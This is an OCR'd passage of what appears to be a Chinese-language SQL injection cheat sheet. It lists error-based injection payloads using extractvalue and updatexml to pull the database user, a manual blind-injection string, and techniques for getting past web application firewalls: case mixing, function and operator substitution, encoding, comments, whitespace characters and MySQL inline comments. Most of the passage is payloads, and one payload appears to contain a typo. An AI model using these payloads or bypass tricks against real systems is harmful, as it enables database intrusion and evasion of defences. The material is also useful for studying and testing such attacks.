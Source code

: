 第二次查找时为sql0，但是插入时又为sql1，此时报错，因为
key主键对应的列内容不允许重复

extractvalue函数报错注入：
and extractvalue(1,concat(0x7e,(select user()),0x7e))

and updatexml(1,concat(0x74,(select user()),0x7e),1)


### 绕过WAF
SQL查询不区分大小写
#### 字符大小写
id=1UnIoN/**/SeLeCT1,user()

#### 函数替换
ascii()替换为Hex(),bin(),ord()

Sleep()替换为benchmark(count,expr)计算执行expr count次耗费多长时间

mid() substring() 等价于substr()也可逻辑上的strcmp

@@user 等价于 User()

@@Version 等价于 version()

#### 连接符替换：

AND -> &&

OR -> || / ^

= -> LIKE,REGEXP, BETWEEN, not < and not >，!<>

> X -> not between 0 and X

WHERE -> HAVING区别是WHERE中不能含有聚合函数，HAVING可以有

where是结果集返回之前来自数据库的约束
having是结果集返回之后对查询结果进行过滤

手工盲注 1'||ascii(substr(database(),2,1))>='120

#### 对它们进行编码
各种编码
大小写，URL，hex，%0A等

#### 注释使用
/.../,#,--...
()括号也能绕过空格
注释绕过空格

#### 空白符
用来加在函数名之中或者空格处
%09~%0d %a0 %20 %可以编码为%25

#### 内联注释
里面的内容是会被 MySQL 解析的
/*!uniON12345SelEcT*/1,user()

